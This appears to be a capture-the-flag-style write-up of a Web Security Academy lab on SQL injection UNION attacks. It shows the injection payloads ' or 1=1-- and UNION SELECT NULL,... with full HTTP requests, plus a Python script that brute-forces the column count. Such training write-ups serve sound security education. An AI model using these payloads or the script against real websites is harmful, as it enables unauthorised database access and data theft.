





# SQL injection UNION attack, determining the number of columns returned by the query

URL: https://0a0100ab0418134780f1ee910062003f.web-security-academy.net/

## Sitemap:

URL: https://0a0100ab0418134780f1ee910062003f.web-security-academy.net/




URL: https://0a0100ab0418134780f1ee910062003f.web-security-academy.net/filter?category=Food+%26+Drink




URL: https://0a0100ab0418134780f1ee910062003f.web-security-academy.net/product?productId=3



<br>

<br>

## SQL Injection Identification:

URL: https://0a0100ab0418134780f1ee910062003f.web-security-academy.net/filter?category=Food+%26+Drink'



## Exploitation:

### Get all items:

URL: https://0a0100ab0418134780f1ee910062003f.web-security-academy.net/filter?category=Gifts'+or+1%3d1--

Payload:

```
GET /filter?category=Gifts'+or+1%3d1-- HTTP/2
```

Request:

```
GET /filter?category=Gifts'+or+1%3d1-- HTTP/2
Host: 0a0100ab0418134780f1ee910062003f.web-security-academy.net
Cookie: session=afxfM9TaL2uC7GKcx9iE6swIVmRUZbJm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a0100ab0418134780f1ee910062003f.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Cache-Control: max-age=0
Te: trailers


```



### Find len of columns:

URL: https://0a0100ab0418134780f1ee910062003f.web-security-academy.net/filter?category='+UNION+SELECT+NULL,NULL,NULL--

Payload:

```
GET /filter?category='+UNION+SELECT+NULL,NULL,NULL-- HTTP/2
```

Request:

```
GET /filter?category='+UNION+SELECT+NULL,NULL,NULL-- HTTP/2
Host: 0a0100ab0418134780f1ee910062003f.web-security-academy.net
Cookie: session=afxfM9TaL2uC7GKcx9iE6swIVmRUZbJm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a0100ab0418134780f1ee910062003f.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Cache-Control: max-age=0
Te: trailers


```


## Exploit:

```python
#!/usr/bin/python3
##
import requests
import re
import pwn
##
def fuzz(URL):
    Payload1="'+UNION+SELECT+"
    Payload2="--"
    padding="NULL"
    send=URL+Payload1+padding+Payload2
    r=requests.get(send)
    while(r.status_code!=200):
        padding+=",NULL"
        send=URL+Payload1+padding+Payload2
        r=requests.get(send)
    return r
##
def main(URL):
    URL1=URL+"/filter?category="
    print(URL1)
    r=fuzz(URL1)
    print(r.url)
    print(r.status_code)
    #print(r.text)
##
main('https://0ad700ce048098a28159e45000970007.web-security-academy.net')
```
